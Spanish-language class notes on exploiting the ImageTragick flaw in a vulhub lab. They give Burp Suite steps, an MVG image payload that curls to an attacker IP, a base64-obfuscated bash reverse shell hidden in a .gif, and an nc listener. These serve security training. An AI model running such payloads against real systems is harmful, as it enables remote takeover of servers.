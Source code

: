 
A continuación, os compartimos el enlace del proyecto correspondiente a la vulnerabilidad de **ImageMagick** (**ImageTragick**) que tocamos en esta clase:

- **Proyecto de Github**: [https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick](https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick)

### Tips
```bash
pushd - para ir a un directorio
popd - volver al directorio anterior
```

### Pasos para operar:
##### Burpsuit 
1. Iniciar captura con proxy, para capturar trafico
2. Con la petición capturada hacemos Ctrl + R, para llevarlo al repeater
	1. Podemos modificar la data del paquete y con Ctrl + Espace enviarlo en ese momento
3. Para hacer un ataque hacemos Ctrl + I para llevarlo al Intruder
	1. Seleccionamos Snipper como ataque
	2. Seleccionamos la parte que vamos a variar, y pulsamos Add s
	3. Podremos agregar en forma de lista los payloads que queremos probar
	4. Vamos Options > Grep-Extract
		1. Le damos a Add, seleccionamos la respuesta del servidor y ok
	5. Le damos al Star Attack
4. Podemos modificar la data de la imagen, podemos hacerlo desde burpsuit en el Repeater
	1. En la data de la imagen podemos poner:
	 ```bash
	push graphic-context  
	viewbox 0 0 640 480  
	fill 'url(https://127.0.0.0/oops.jpg"|curl " <IP-atacante>/testingRCE)'  
	pop graphic-context
	 ```
	 2. Desplegamos un servidor en Python con: 
		```python
		sudo python3 -m http.server 80
		```


#### Hacer Revershell con una inagen
##### Usamos un script y lo metemos en un archivo .gif
```java
push graphic-context  
viewbox 0 0 640 480  
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'  
pop graphic-context
```
##### Cambiamos la cadena a base64
![[IMG_0190.png]]

1. Interpretamos la cadena para ver su contenido
2. Cambiamos los valores, nuestra IP y un puerto
3. La volvemos a encriotar
4. Ponemos todo en un archivo .gif
##### Mandamos la ReverseShell
1. Subimos nuestra imagen y esperamos con nuestro puerto abierto
```bash
nc -nlvp 4646
```
2. Cuando subamos la imagen ya tendremos acceso a la máquina 